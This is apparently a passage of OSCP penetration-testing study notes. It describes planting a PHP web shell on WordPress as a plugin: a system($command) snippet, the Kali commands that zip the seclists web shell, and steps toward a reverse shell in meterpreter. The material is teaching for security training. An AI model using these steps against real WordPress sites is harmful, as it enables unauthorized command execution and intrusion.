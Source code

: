 ```php
76 # this is the last resort. chances are PHP Suhosin  
77 # has system() on a blacklist anyways :>  
78  
79 # http://php.net/manual/en/function.system.php  
80 system($command);  
81 }  
82 }
```

![dockerengine]({{ site.baseurl }}/post_img/oscp_origin/24_2/30.jpg)

-    The plugin-shell.php plugin is a catalyst to execute commands on the system

-    Once we are able to trigger arbitrary code execution on the compromised host, there are a number of methods we could use to obtain a proper reverse shell.

![dockerengine]({{ site.baseurl }}/post_img/oscp_origin/24_2/31.jpg)


# Summary

- Creating a reverse shell from Word press plugin
- trigger the word press plugin
- get reverse shell in the meterpreter

-----------------------------------------

-----------------------------------------
## Obtaining a Shell

-    WordPress expects plugins to be in a zip file. 

-    WordPress receives the zip file, it will extract it into the wp-content/plugins directory on the server.

-    **WordPress places the contents of the zip file into a folder that matches the name of the zip file itself**.

-    we will need to **make note of the name of the file in order to be able to access our PHP shell** later on.

#### Creation of zip file

```bash
kali@kali:~$ cd /usr/share/seclists/Web-Shells/WordPress  
kali@kali:/usr/share/seclists/Web-Shells/WordPress$ sudo zip plugin-shell.zip plugin\-s  
hell.php  
 adding: plugin-shell.php (deflated 58%)
```

 - zip file is named plugin-shell.zip
 
 - placed in the plugin-shell folder within wp-content/plugins on the server
